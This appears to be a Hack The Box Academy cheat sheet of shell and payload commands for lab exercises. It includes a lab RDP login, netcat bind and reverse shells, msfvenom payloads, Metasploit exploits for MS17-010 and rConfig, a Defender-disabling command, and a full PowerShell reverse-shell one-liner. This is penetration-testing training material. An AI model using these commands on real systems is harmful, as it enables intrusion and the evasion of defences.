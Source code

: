 
---

| **Command**                                                                                         | **Description**                                                                                                                                                                                         |
| --------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!`                                       | Connect to a Windows target using Remote Desktop Protocol.                                                                                                                                              |
| `env`                                                                                               | Discover system environmental variables to identify the shell language in use.                                                                                                                          |
| `sudo nc -lvnp <port #>`                                                                            | Start a netcat listener on a specified port.                                                                                                                                                            |
| `nc -nv <IP> <port>`                                                                                | Connect to a netcat listener at the specified IP and port.                                                                                                                                              |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| /bin/bash -i 2>&1 \| nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell (`/bin/bash`) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on |
| `Set-MpPreference -DisableRealtimeMonitoring $true`                                                 | Disable real-time monitoring in Windows Defender via PowerShell.                                                                                                                                        |
| `use exploit/windows/smb/psexec`                                                                    | Metasploit module to establish a shell session on a Windows system via SMB.                                                                                                                             |
| `shell`                                                                                             | Drop into a system shell from a meterpreter session.                                                                                                                                                    |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<port> -f elf > payload.elf`              | Generate a Linux reverse shell payload.                                                                                                                                                                 |
| `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<port> -f exe > payload.exe`                | Generate a Windows reverse shell payload.                                                                                                                                                               |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<IP> LPORT=<port> -f macho > payload.macho`            | Generate a macOS reverse shell payload.                                                                                                                                                                 |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<port> -f asp > payload.asp`          | Generate an ASP web reverse shell payload.                                                                                                                                                              |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<port> -f raw > payload.jsp`               | Generate a JSP web reverse shell payload.                                                                                                                                                               |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<port> -f war > payload.war`               | Generate a WAR reverse shell payload.                                                                                                                                                                   |
| `use auxiliary/scanner/smb/smb_ms17_010`                                                            | Check if a host is vulnerable to MS17-010 using Metasploit.                                                                                                                                             |
| `use exploit/windows/smb/ms17_010_psexec`                                                           | Exploit MS17-010 to gain a reverse shell on a vulnerable Windows system.                                                                                                                                |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`                                       | Exploit rConfig 3.9.6 for a reverse shell on a vulnerable Linux system.                                                                                                                                 |
| `python -c 'import pty; pty.spawn("/bin/sh")'`                                                      | Spawn an interactive shell using Python.                                                                                                                                                                |
| `/bin/sh -i`                                                                                        | Spawn an interactive shell on a Linux-based system.                                                                                                                                                     |
| `perl -e 'exec "/bin/sh";'`                                                                         | Spawn an interactive shell using Perl.                                                                                                                                                                  |
| `ruby -e 'exec "/bin/sh"'`                                                                          | Spawn an interactive shell using Ruby.                                                                                                                                                                  |
| `lua -e 'os.execute("/bin/sh")'`                                                                    | Spawn an interactive shell using Lua.                                                                                                                                                                   |
| `awk 'BEGIN {system("/bin/sh")}'`                                                                   | Spawn an interactive shell using awk.                                                                                                                                                                   |
| `find / -name <filename> -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`                             | Use `find` and `awk` to spawn an interactive shell.                                                                                                                                                     |
| `find . -exec /bin/sh \; -quit`                                                                     | Alternative `find` command to spawn an interactive shell.                                                                                                                                               |
| `vim -c ':!/bin/sh'`                                                                                | Spawn a shell using the `vim` text editor.                                                                                                                                                              |
| `ls -la <path/to/fileorbinary>`                                                                     | List files and directories with permissions. Use to identify executable binaries.                                                                                                                       |
| `sudo -l`                                                                                           | List commands the current user can run as sudo.                                                                                                                                                         |
| `/usr/share/webshells/laudanum`                                                                     | Path to Laudanum webshells on ParrotOS and Pwnbox.                                                                                                                                                      |
| `/usr/share/nishang/Antak-WebShell`                                                                 | Path to Antak WebShell on ParrotOS and Pwnbox.                                                                                                                                                          |

---

**`Powershell` one-liner used to connect back to a listener that has been started on an attack box**:

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
